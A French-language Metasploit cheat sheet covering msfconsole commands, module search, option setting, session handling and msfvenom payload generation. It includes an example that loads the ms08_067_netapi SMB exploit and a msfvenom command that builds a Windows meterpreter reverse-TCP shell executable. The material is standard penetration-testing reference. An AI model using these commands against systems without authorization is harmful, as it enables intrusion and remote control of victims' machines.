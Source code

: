 
# 🛠️ Metasploit Cheat Sheet

> ✅ Ta référence rapide pour maîtriser Metasploit Framework.

---

## ⚡ Lancer Metasploit
```bash
msfconsole
```

---

## 🧭 Commandes de base

| Commande     | Description                           |
|--------------|---------------------------------------|
| help / ?    | Affiche l’aide de msfconsole         |
| banner      | Affiche une nouvelle bannière        |
| version     | Affiche la version de Metasploit     |
| exit / quit | Quitter Metasploit                   |
| clear       | Nettoyer le terminal                 |

---

## 🔍 Rechercher des modules
```bash
search [mot-clé]
```
Exemple :
```bash
search samba
```

---

## 📦 Utiliser un module
```bash
use [chemin_du_module]
```
Exemple :
```bash
use exploit/windows/smb/ms08_067_netapi
```

---

## 📝 Infos sur un module
```bash
info [chemin_du_module]
```
Ou si le module est déjà chargé :
```bash
info
```

---

## ⚙️ Configurer les options

| Commande                | Description                           |
|-------------------------|---------------------------------------|
| show options           | Affiche les options du module        |
| set [option] [valeur]  | Définit une option                   |
| setg [option] [valeur] | Définit une option globale           |
| unset [option]         | Supprimer la valeur d’une option     |
| unsetg [option]        | Supprimer une option globale         |

Exemple :
```bash
set RHOSTS 192.168.1.10
set RPORT 445
```

---

## 🔎 Afficher les modules

| Commande        | Description                     |
|-----------------|---------------------------------|
| show exploits  | Affiche les exploits disponibles|
| show payloads  | Affiche les payloads disponibles|
| show auxiliary | Affiche les modules auxiliaires|
| show encoders  | Affiche les encoders           |
| show nops      | Affiche les générateurs de NOP |
| show post      | Affiche les modules post-exploit|

---

## 💥 Lancer un exploit
```bash
exploit
```
ou
```bash
run
```

---

## 🎯 Gestion des sessions

| Commande           | Description                      |
|--------------------|----------------------------------|
| sessions          | Liste toutes les sessions       |
| sessions -i [ID]  | Interagir avec une session      |
| sessions -k [ID]  | Terminer une session            |
| background        | Mettre une session en arrière-plan|

---

## 🛠️ Générer un payload avec msfvenom
```bash
msfvenom -p [payload] LHOST=[IP] LPORT=[PORT] -f [format] -o [fichier]
```
Exemple :
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe -o shell.exe
```

---

## 🔄 Mettre à jour Metasploit
```bash
msfupdate
```

---

## 🚀 Astuces utiles

| Commande                | Description                          |
|-------------------------|--------------------------------------|
| jobs                   | Liste les jobs actifs               |
| kill [ID]              | Arrête un job                       |
| resource [fichier.rc]  | Exécute un script automatique       |

---

## 📚 Liens utiles
- [Documentation officielle Metasploit](https://docs.metasploit.com/)
- [Metasploit Unleashed (OffSec)](https://www.offensive-security.com/metasploit-unleashed/)
